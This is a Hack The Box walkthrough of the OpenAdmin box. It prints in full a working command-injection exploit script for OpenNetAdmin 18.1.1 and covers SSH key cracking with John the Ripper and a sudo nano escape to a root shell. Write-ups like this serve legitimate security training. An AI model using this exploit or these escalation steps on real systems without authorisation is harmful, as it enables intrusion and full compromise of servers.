

# Hack The Box | OpenAdmin



## Box Summary

This box is an easy Linux box on HackTheBox created by dmw0ng. We begin by finding a webserver running on port 80 that leads us to an opennetadmin instance logged in as guest. From there we are able exploit a remote code execution vulnerability to gain acess to the box as www-data. We find credentials to ssh in as Jimmy in a php file on the webserver. We pivot to Joanna by cracking an encrypted RSA key on the box that is used for ssh. Once we are logged in as Joanna, we find that she is able to run nano with root privileges. We exploit this to gain a root shell on the box.

## Enumeration

We run nmap on the box and find two open ports: 80/tcp, 22/tcp

```
nmap -sV -sC -oA nmap/openadmin 10.10.10.171
```


We take a look at port 80 in our browser by going to http://10.10.10.171 and we find that there is just an Ubuntu Apache2 Default Page running. 

We run gobuster to enumerate any directories that may give us more information about the webserver. We find that there is a /music directory that exists.

```bash
gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


When we visit the webpage we see a login and signup button.


Navigating to the login section of the site, we are redirected to http://10.10.10.171/ona which is a service called  **opennetadmin**. We are logged into the service as a guest. We can see near the top of the page that the version running is v18.1.1


## Initial Foothold

Now that we know the version number, we want to search for publicly available exploits using searchsploit

```
searchsploit opennetadmin
```


We find an exploit for RCE, 46791.sh

We copy this to our current directory using the ```-m``` flag and rename the file for convenience.

```
searchsploit -m exploits/php/webapps/47691.sh
mv 47691.sh ona-rce.py
```


When looking at the contents of the file, we see that the exploit is a curl command that sends our commands to the server.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

The version we copied from searchsploit is encoded for windows, so we simply fix that by running ```dos2unix``` on the file.

```
dos2unix ona-rce.py
```

We run the exploit and find that we are able to execute code as ```www-data```


We now enumerate files on the box, looking for any sensitive information in any of the php files found on the webserver. We find ```local/config/database_settings.inc.php``` which contains a password.


We look for users on the box that have a login shell by looking at ```/etc/passwd``` and find two users on the box: jimmy and joanna.


Now that we have a couple users, we check for credential resuse and find that jimmy has reused a password. Because of this, we are able to ssh into the box as user jimmy the password 'n1nj4W4rri0r!'


## Pivoting to Joanna

Now that we are logged in as the user jimmy, we need to pivot to joanna since she holds the ```user.txt``` file we are after. We poke around the filesystem and find a directory ```/var/www/internal``` on the system. To see how this site is setup, we want to take a look at the apache2 configuration for this site ```/etc/apache2/sites-enabled/internal.conf```


We see that the site is running on port 52846. We navigate back to the ```/var/www/internal``` directory to take a look at the files, and we see that ```main.php``` executes code that outputs joanna's ssh rsa key.

```
vim /var/www/internal/main.php
```


Since we know the internal site is running on port 52486, we can try to curl this page to see if the code executes. We get the key.


Now that we have they key, we save it to our local machine as ```joanna_id_rsa```. Since the file is encrypted, we will need to crack the password. We use ```ssh2john``` to change the rsa key to a format that john the ripper will understand.

```
/usr/share/john/ssh2john.py joanna_id_rsa > joanna_id_rsa.john
```

Now we can pass this file to john, using the rockyou.txt wordlist and let it run with the following command:

```
john joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

After a moment, we can see that john cracks the key for us:


We need to lock down permissions on the key to 600 or ssh will yell at us for having a world-readable key:

```
chmod 600 joanna_id_rsa
```

Now we can login with ssh using joanna's key and 'bloodninjas' password.

```
ssh -i joanna_id_rsa joanna@10.10.10.171 
```


We have owned user!


## Privilege Escalation

Now we need to find a path to root. We begin by seeing what commands joanna can run as sudo with ```sudo -l``` and see that she can run ```/bin/nano /opt/priv``` as root.


Usually when a user can run a system binary as root, I like to check [GTFObins](https://gtfobins.github.io/) to see if it is exploitable. We see nano on the list and that we can use control commands to execute code as root and escape to a shell.


We run ``` sudo /bin/nano /opt/priv``` to open the editor as root. From there, we hit CTRL+R for Read File, then CTRL+X to Execute Command. we type ```reset; sh 1>&0 2>&0``` to reset our shell, spawn ```sh``` and redirect standard out and standard error to the terminal. This gives a root shell.


Root Owned!
